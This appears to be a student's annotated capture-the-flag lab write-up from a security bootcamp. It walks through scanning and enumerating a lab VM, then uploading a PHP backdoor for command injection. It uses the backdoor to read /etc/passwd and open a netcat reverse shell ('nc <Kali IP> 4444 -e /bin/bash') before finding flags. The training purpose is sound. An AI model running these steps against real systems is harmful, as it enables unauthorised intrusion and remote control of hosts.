










### Instructions

Target 2's IP Address: `192.168.1.115`

1. Use Nmap to identify the IP address of Target 2. 

nmap 192.168.1.0/24

2. Use Nmap to document all exposed ports and services at this IP address.

$ nmap -sV -sC  -O 192.168.1.115

$ nmap -Pn --script vuln 192.168.1.115 

3. Enumerate the web server with `nikto`.
    - **Hint**: Run: `nikto -C all -h <URL>`
    - **Note**: This creates a list of URLs the Target HTTP server exposes. What kind of website is this VM running?

    nikto -C all -h 192.168.1.115

    

    

4. Perform a more in-depth enumeration with `gobuster`.
    - **Hint**
      - Install `gobuster` using `apt`

      - Run `gobuster -w /path/to/wordlist dir -u <URL>`

      - Use `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` as your wordlist (`-w`).
      - Pay attention to the `/vendor` directory. There may be a `flag` in there...

      using gobuster to for in-depth enumeration

 

     then used the wget -r -np -k http://192.168.1.115/vedor and copied all the files in the folder to the Kali Machine

     used the grep -iR flag* to get the first flag from this directory

 

5. Use searchsploit to find any known vulnerabilities associated with the programs found in Step #4.
    **Hint**: Run `searchsploit -h`

    used searchsploit to get the windows vulnerability

 

6. Use the provided script `exploit.sh` to exploit this vulnerability by opening an Ncat connection to your Kali VM.

    - Edit the line at the top of the script that sets the `TARGET` variable. Set it equal to the IP address of Target 2.

    - Run the script. It uploads a file called `backdoor.php` to the target server. This file can be used to execute command injection attacks.

    - Navigate to: `http://<Target 2 URL>/backdoor.php?cmd=<CMD>`
      - This allows you to run bash commands on Target 2.
      - For example, try: `http://<Target 2 URL>/backdoor.php?cmd=cat%20/etc/passwd`

    - Next, use the backdoor to open a shell session on the target.

      - On your **Kali** VM, start a netcat listener: `nc -lnvp 4444`
      - In the browser, use the backdoor to run: `nc <Kali IP> 4444 -e /bin/bash`. For example, your query string will look like `cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash`.

Changed the IP address and was able to run the exploit and gain access to Target 2

7. Using the shell you've opened on `Target 2`, find a `flag` in `/var/www`.

8. Next, find a flag in the WordPress uploads directory.

    - **Hint**: Use the `find` command: `find /var/www -type f -iname 'flag*'`

9. If you find all three flags -- congratulations! There is a fourth, but escalating to `root` is extremely difficult: For now, move on to completing a report about Target 2.

---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
